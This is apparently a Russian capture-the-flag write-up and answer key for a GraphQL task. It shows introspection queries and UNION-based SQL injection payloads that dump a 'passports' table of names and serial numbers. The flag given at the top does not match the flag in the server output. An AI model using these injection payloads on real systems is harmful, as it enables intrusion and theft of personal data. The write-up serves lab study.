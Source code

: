 ### В этом задании мы предлагаем вам познакомиться с темой GraphQL, разобратесь в ней и получите конфиденциальную информацию через веб-приложение: http://18.195.176.132/. 
### Для решения задания вам могут пригодиться следующие ресурсы: [graphql-voyager](https://apis.guru/graphql-voyager/) и [Хабр. Пентест приложений с GraphQL](https://habr.com/ru/company/dsec/blog/444708/)
_____________________

*** Ответ: flag{50e1a7e81d9814943dc6664a289a565}***

Прочитав предложенную статью с habr.com, скачиваем IDE Insomnia для отправки GraphQL-запросов. Заходим на сайт, ищем пакет с названием qraphql, импортируем header`ы и первым делом получаем query-запросы с помощью команды, приведенной в посте:

```GraphQL
    query {
        __schema {
          queryType {
            fields {
              name
              args {
                name
              }
            }
          }
        }
      }
```

Замечаем, что у нас есть два запроса, у которых есть поля аргументов -- это "searchTenderbyCity" и "searchTenderbyNumber". Как видно по названию, первый "поиск" ждет на вход параметр типа string, а второй - int. Так как в посте описаны методы пентеста, думаю стоит попробовать поискать уязвимости. Dos точно не подойдет, регистрировать/добавлять пользователей тоже нельзя, а кавычку отправить можно: 

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"Mos'cow")
        {
          idtender
        }
      }
```

И нам приходит ответ, в стиле "errors": [{"message": "ER_PARSE_ERROR: You have an error in your SQL syntax;...}]
Это говорит о том, что мы нашли SQL-injection

Следующей командой узнаем названия всех Sql-таблиц в этой БД (Предварительно подобрав количество колонок) 

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union select TABLE_NAME,2,3,4,5,6 from information_schema.tables#")
        {
          idtender
        }
      }
 ```
 
В наш взор попадают интересные таблицы: ...{"idtender": "authors"},{"idtender": "passports"},{"idtender": "tender"}...
Так как "authors" и "tender" мы можем получить даже с помощью запроса вида query, то passports мы видим впервые. Посмотрим, какие колонки содержит эта таблица:

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union SELECT COLUMN_NAME,2,3,4,5,6 FROM information_schema.COLUMNS where TABLE_NAME = 'passports'#")
        {
          idtender
        }
      }
```

Согласно ответу сервера, их всего 4: idpassports, first_name, second_name и serial_number. Посмотрим их содержимое

```GraphQL
    query{
        searchTenderbyCity(tenderCity:"'union SELECT first_name,2,3,serial_number,idpassports,second_name FROM passports #")
        {
          idtender
          city
          description
          status
        }
      }
```

Ответ сервера выглядит вот так:

```GraphQL
    {
      "data": {
        "searchTenderbyCity": [
          {
            "idtender": "kek",
            "city": "pek",
            "description": "flag{50e1a7e81d9814943dc6664a289a3565}",
            "status": 1
          }
        ]
      }
    }
```
____
##### Score: 10/10
